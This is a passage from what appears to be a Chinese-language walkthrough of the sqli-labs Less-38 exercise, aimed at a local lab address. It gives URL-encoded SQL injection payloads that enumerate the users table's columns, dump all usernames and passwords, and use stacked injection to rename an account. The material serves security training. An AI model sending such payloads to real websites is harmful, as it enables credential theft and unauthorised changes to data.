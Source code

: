 ![image-20220601103009233.png](assets/1706846040-5c5b5a3603c6a0437c6f388f17568be6.png)

查一下字段名，获取一下用户账号，然后利用堆叠注入我们再自己添加一个账号

```bash
http://10.211.55.27/Less-38/?id=-1%27%20union%20select%201,2,group_concat(column_name)%20from%20information_schema.columns%20where%20table_name=%27users%27%20--+
```

![image-20220601103526859.png](assets/1706846040-8044bc5a1b50a4defebfa667443fab19.png)

获取一下用户账号密码看到了 Dumb Dumb

```bash
http://10.211.55.27/Less-38/?id=-1%27%20union%20select%201,2,group_concat(username,%27|%27,password)%20from%20users%20--+
```

![image-20220601104111207.png](assets/1706846040-a82d60cbc469cbe07d26df5828293857.png)

下面我们就利用堆叠注入修改一下他的账号`Dumb111`

```bash
http://10.211.55.27/Less-38/?id=-1%27;%20update%20users%20set%20username=%27Dumb111%27%20where%20username=%27Dumb%27--+
```

![image-20220601105429983.png](assets/1706846040-f3a00c05939de5f52cbd95c817b72def.png)
